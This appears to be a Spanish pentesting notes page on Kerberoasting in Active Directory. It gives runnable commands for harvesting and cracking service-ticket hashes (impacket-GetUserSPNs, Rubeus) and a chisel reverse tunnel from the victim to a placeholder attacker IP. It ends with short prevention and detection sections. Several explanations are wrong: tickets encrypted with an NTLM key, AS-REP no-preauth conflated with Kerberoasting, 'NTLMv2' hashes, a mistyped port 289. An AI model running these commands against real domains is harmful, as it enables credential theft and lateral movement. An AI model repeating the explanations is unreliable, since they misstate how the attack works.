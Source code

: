 # Kerberoasting 

El **Kerberoasting** attack es una técnica utilizada para extraer contraseñas de cuentas de usuarios en un dominio de Windows que utiliza el protocolo de autenticación de [[Kerberos]].

Kerberos permite a los usuarios autenticarse de forma segura en un dominio y recibir un "ticket" (TGS) que se puede utilizar para acceder a los recursos de la red. Los tickets de Kerberos están encriptados utilizando la clave de cifrado del servidor de dominio (NTLM). 

En este ataque, el atacante aprovecha una debilidad en el proceso de autenticación de Kerberos para extraer contraseñas en forma de "hashes" de los tickets de servicio. Los tickets de servicio son tickets utilizados por servicios de dominio para autenticarse en otros sistemas dentro de la red. Estos tickets contienen información cifrada, incluyendo el nombre de la cuenta de servicio y un hash de la contraseña de la cuenta. 

El atacante recopila los tickets de servicio de la red y luego los extrae para obtener los hashes de las contraseñas asociadas a las cuentas de servicio. Estos hashes pueden ser descifrados offline utilizando técnicas de cracking para obtener las contraseñas en texto plano. 

-----
# Explotación 

- **Identificación de usuarios con cuentas de servicio**: Para llevar a cabo un ataque de **Kerberoasting** es importante identificar cuentas de servicio en el dominio de Active Directory. Estas son cuentas de usuario especiales que se utilizan para ejecutar servicios en servidores y a menudo se configuran par aque puedan autenticarse en un dominio y solicitar TS (Ticket Service).

- **Solicitud de tíquets de serivicio**: Una vez que se identifican las cuentas de servicio, un atacante solicita tíckets de servicio para estas cuentas utilizando [[Kerberos]]. Estos tickets de servicio se cifran utilizando el hash **NTLM** de la contraseña del servicio.

- **Exfiltración de tickets cifrados**: Una vez que el atacante ha obtenido los tickets cifrados, estos se extraen del entorno de AD. El atacante puede realizar esto de manera discrea y sin despertar sospechas.

- **Ataque offile**: Una vez con los tickets cifrados en su posesión, el atacnte intenta descrifrar los hashes NTLM correspondientes a las contraseñas de los serivcios. Esto se hace de forma offline, lo que significa que el atacante puede probar diferentes contraseñas sin activar alarmas de seguridad en el entorno de AD.

- **Contraseñas débilles o vulnerables**: Si las contraseñas de los serivcios son débiles o vulnerables, el ataque **Kerberoasting** tendrá éxito y el atacante obtendrá las contraseañs reales en texto claro correspondinetes a las cuentas de servicio comprometidas.

-  **Uso de las contraseñas obtenidas**: Con las contraseñas de servicio en su poder, el atacnte puede utilizarlas para acceder a sistemas y servicios adeicionales en el entorno, lo que puede conducir a un mayor compromiso de la red. 
- 
-----
# PoC Remote

Para obtener SPNs (Service Principal Names), es decir, cuentas de servicio, podemos hacer uso de herramientas como **imapcket-GetUserSPNs**, perteneciente a la suite de impacket (Conjunto de herramientas desarrolladas en python para tareas relacionadas con la explotación y analisis de protocolos y servicios de Windows y redes). Por ejemplo, una vez que tengamos credenciales válidas (Las cuales podrían ser validadas con herramientas como **crackmapexec**), podríamos plantearnos realizar un **Kerberoasting attack**. 

```bash
impacket-GetUserSPNs {domain}/{username}:{password} -request

impacket-GetUserSPNs -request -dc-ip {dc_ip} {domain.full}/{username}:{password} -outputfile hashes.kerberos

impacket-GetUserSPNs -request -dc-ip {dc_ip} -hashes :{nt_hash} {domain}/{username} -outputfile hashes.kerberos
```
En caso de que haya algun usuario vulnerable el cual sea detectado con la herramienta **impacket-GetUserSPNs** podríamos utilizar el parametro **-request** para solicitar un **TGS** y así posteriormente intentar crackear este. 

Otro ejemplo, en caso de que tengamos un usuario que disponga de **UF_DONT_REQUEST_PREAUTH** podríamos hacer uso de otra version de impacket disponible en el respositorio de [ShutDown Impacket](https://github.com/ShutdownRepo/impacket.git), en donde podremos cambiarnos a la rama de **getuserspns-nopreauth** para hacer uso de la herramienta **GetUserSPNs** con la flag `-no-preauth`. 

```bash
GetUserSPNs.py {domain}/ -no-preauth "{user_with_UF_DONT_REQUEST_PERAUTH=true}" -usersfile {users.txt} -dc-ip {ip} -request
```
De esta manera, al ejecutar el anterior comando estaremos intentando solicitar un **TGS** para todas los usuarios almacenados, aunque solo tendremos éxito en este ataque, es decir, recibir el TGS con el hash NTLM en su interior si el usuario es kerberoasteable (Que las credenciales están configuradas de manera que se almacenan).

----
# PoC Local

En algunos casos, puede ser que nos enfrentemos a escenarios en donde no podemos llevar a cabo un **Kerberoasting Attack** por configuraciones, falta de exposición de kerberos, errores, etc. pero es importante tener en cuenta probar esto una vez que accedamos al sistema como algún usuario, en ese caso podemos hacer uso de herramientas como [Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe) para efectuar el mismo. (Podemos encontrar el binario compilado en el [repositorio de ghostpack](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)).

Una vez descargado y transferido a la máquina víctima, podemos hacer uso de este para efectuar un Kerberoasting Attack:

```Powershell
> .\Rubeus.exe kerberoast /creduser:{domain}\{user} /credpassword:{password}
```

En caso de que existiesen usuarios con la configuración **UF_DONT_REQUEST_PREAUTH** su hash NTLMv2 será devuelto en el output, dandonos así la pauta de que este ataque fue ejecutado de manera correcta puediendo así intentear crackear el/los mismo/s de manera offline. 
###### Importante

Es importante tener en cuenta que así como puede ser que el kerberoastin attack sea llevado a cabo únicamente de manera remota por diversos motivos, en caso de que tengamos acceso al sistema y sea por la falta de exposición del protocolo kerberos, estando este accesible desde la máquina de manera local pero no de manera remota, además de hacer uso de rubeus también podríamos hacer uso de conceptos de [[Pivoting]].

Por ejemplo, cuando usamos el sigueinte comando obtenemos los *usuarios kerberoasteables*:

```bash
impacket-GetUserSPNs {domain}\{user}:{password}
```

Pero al momento de agregarle la flag `-request` obtenemos un error debido a que [[Kerberos]] no se encuentra expuesto. Es importante tener en cuenta que esto es posible ya que no es hasta que ingresamos esta flag que autenticamos contra kerberos, por detras, *impacket-GetUserSPNs* lo que hace es establecer una conexión con el DC utilizando Kerberos o NTLM y luego solicita la información sobre los Service Principal Names.

Retomando con el [[Pivoting]], sabemos que tenemos que hacer uso de [Chisel](https://github.com/jpillora/chisel) para poder crear un **cliente-servidor**, pero lo que debemos tener en cuenta que es que además del puerto **88** (Kerberos), deberíamos traernos el puerto **389** (Ldap).

Máquina atacante:
```Bash
./chisel server --reverse 1234
```

Máquina víctima:
```bash
./chisel client {Attacker_IP}:1234 R:88:127.0.0.1:88 R:289:127.0.0.1:389
```

Una vez generado el servidor y conectado al mismo portforwardeando el puerto de Kerberos y Ldap, podemos intentar realizar un Kerberoasting attack teniendo en cuenta que el mismo deberá ser apuntado contra nuestro localhost debido a que ahora en nuestra máquina atacante por el puerto 88 y 389 en realidad tenemos el puerto 88 y 389 de la máquina víctima.

```bash
impacket-GetUserSPNs {domain}/{user}:{password} -request -dc-ip 127.0.0.1
```

En caso de que haya usuarios con la configuración **UF_DONT_REQUEST_PREAUTH**, una vez más, será completado de manera exitosa este ataque.

-----
# Prevenir Kerberoasting Attack ( #blueteam )

- **Uso de contraseñas fuertes**: La primera línea de defensa es asegurarse de que todas las cuetnas de servicio tengan contraseñas fuertes y únicas. Esto hace que sea mucho más difícil para los atacantes realizar este ataque, ya que la contraseña es más difícil de descifrar.
- **Uso de contraseñas gestionadas**: En lugar de permitir que los administradores configuren manulamente contraseñas para cuentas de servicio, considere el uso de soluciones de gestión de contraseñase que generen y almacenen contraseñas de manera segura.
- **Rotación regular de contraseñas**: Implementar políticas de rotración de contraseñas para ceuntas de servicio. Cuanto más a menudo cambie las contraseñas, menor será el tiempo que un atacante potencial tendría para realizar este ataque.
- **Monitoreo ode actividad anómala**: Establecer sistemas de monitoreo y alerta que puedan detectar actividades inusuales en el AD, como intentos repetidos de acceso a ceutnas de servicio o acceso no autorizado a los registros de eventos de [[Kerberos]].
- **Uso de soluciones de seguridad avanzadas**: Considerara la implementación de soluciones de seguiridad avanzada que puedan detectar y prevenir este ataque mediante la detección de patrones de comportamiento inusuales o el monitoreo en tiempo real de la autenticación de [[Kerberos]].
- **Implementacipón de políticas de seguridad adecuadas**: Asegurarsse de que la organización tenga políticas de segurida bien definidas y qeu se sigan de manera consistente. Esto incluye el acceso a cuetnas de servicio y el uso de cuentas con privilegios elevados.
# Detección
Para detectar un **Kerberoasting Attack** puede ser muy útil generar detecciones a raiz de los siguientes puntos a tener en cuenta.

- **1)** Se solicitan **TGS** con **cifrado RC4**.
- **2)** Evento **4769** en el Domain Controller (Filtrando por tickets con tipo de encriptado **0x17**, cuentas de servicio conocidas y computadoras)
